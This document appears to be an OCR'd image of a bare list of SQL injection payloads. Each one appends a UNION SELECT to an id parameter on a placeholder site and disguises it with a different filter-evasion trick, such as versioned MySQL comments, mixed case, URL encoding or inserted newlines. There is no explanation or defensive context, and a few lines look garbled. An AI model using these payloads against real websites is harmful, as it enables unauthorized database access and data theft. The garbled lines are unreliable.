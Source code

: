     http://domain.com/index.php?id=1& n=19901' /**/UNION/**//*!50000SELECT*//**/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' /*!50000UniON SeLeCt*/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' union /*!50000%53elect*/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' /*!u%6eion*/ /*!se%6cect*/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' /*--*/union/*--*/select/*--*/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' union (/*!/**/ SeleCT */ 1,2,3,4,5,6,7,8,9,10,12,13,14)-- -  
    http://domain.com/index.php?id=1& n=19901' /*!union*/+/*!select*/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' /**/uNIon/**/sEleCt/**/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' +%2F**/+Union/*!select*/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' /**//*!union*//**//*!select*//**/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' /*!uNIOn*/ /*!SelECt*/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' /**/union/*!50000select*//**/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' 0%a0union%a0select%09 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' %0Aunion%0Aselect%0A 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' uni<on all="" sel="">/*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' %252f%252a*/UNION%252f%252a /SELECT%252f%252a*/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' /*!union*//*--*//*!all*//*--*//*!select*/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A1% 2C2%2C 1,2,3,4,5,6,7,8,9,10,12,13,14-- -
    http://domain.com/index.php?id=1& n=19901' /*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' +UnIoN/*&a=*/SeLeCT/*&a=*/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' union+sel%0bect 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' +#1q%0Aunion all#qa%0A#%0Aselect 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' %23xyz%0AUnIOn%23xyz%0ASeLecT+ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' %23xyz%0A%55nIOn%23xyz%0A%53eLecT+ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' union(select(1),2,3)-- -  
    http://domain.com/index.php?id=1& n=19901' uNioN (/*!/**/ SeleCT */ 11) 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' /**//*U*//*n*//*I*//*o*//*N*//*S*//*e*//*L*//*e*//*c*//*T*/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' %0A/**//*!50000%55nIOn*//*yoyu*/all/**/%0A/*!%53eLEct*/%0A/*nnaa*/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' +union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A1% 2C2%2C 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' /*!f****U%0d%0aunion*/+/*!f****U%0d%0aSelEct*/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' +UnIoN/*&a=*/SeLeCT/*&a=*/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' +/*!UnIoN*/+/*!SeLeCt*/+ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' /*!u%6eion*/ /*!se%6cect*/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' uni%20union%20/*!select*/%20 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' union%23aa%0Aselect 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' /**/union/*!50000select*/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  